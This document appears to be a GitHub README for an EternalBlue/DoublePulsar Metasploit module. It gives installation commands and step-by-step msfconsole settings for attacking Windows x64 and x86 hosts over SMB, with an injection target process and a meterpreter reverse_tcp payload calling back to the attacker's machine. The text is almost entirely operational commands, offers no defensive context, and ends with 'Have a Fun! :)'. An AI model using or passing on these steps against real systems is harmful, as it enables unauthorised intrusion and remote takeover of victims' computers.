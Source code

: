 # Eternalblue-Doublepulsar-Metasploit

# How to Install

~# dpkg --add-architecture i386 && apt-get update -y && apt-get install wine32 -y
* git clone https://github.com/grglzrv/Eternalblue-Doublepulsar-Metasploit.git
* cd Eternalblue-Doublepulsar-Metasploit
* cp eternalblue_doublepulsar.rb /usr/share/metasploit-framework/modules/exploits/windows/smb
* Note: Also copy 'deps' directory to /usr/share/metasploit-framework/modules/exploits/windows/smb
* mkdir -p /root/.wine/drive_c/

# How to use

service postgresql start
service postgresql enable
msfconsole
reload_all 
use exploit/windows/smb/eternalblue_doublepulsar
show options

 - For Windows x64
 
 set RHOST (Target IP)
 set PROCESSINJECT svchost.exe or et PROCESSINJECT svchost.exe
 set TARGETARCHITECTURE x64
 set payload windows/x64/meterpreter/reverse_tcp
 set LHOST (Local IP, check it with 'ip a')
 show targets
 set target 8
 run or exploit
 
 - For Windows x86
 
 set RHOST (Target IP)
 set PROCESSINJECT svchost.exe or et PROCESSINJECT explorer.exe
 set TARGETARCHITECTURE x86
 set payload windows/meterpreter/reverse_tcp
 set LHOST (Local IP, check it with 'ip a')
 show targets
 set target 8
 run or exploit
 
 # Have a Fun! :)
